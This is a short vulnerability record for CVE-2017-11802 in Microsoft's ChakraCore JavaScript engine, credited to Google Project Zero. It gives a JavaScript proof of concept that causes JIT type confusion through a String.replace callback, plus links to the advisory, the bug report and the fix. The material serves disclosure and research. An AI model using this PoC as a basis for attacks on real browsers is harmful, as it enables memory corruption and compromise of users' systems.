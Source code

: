 # CVE-2017-11802

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11802)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1334)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/b7dcda019940222b0a9288fabb204b849c4cad40)
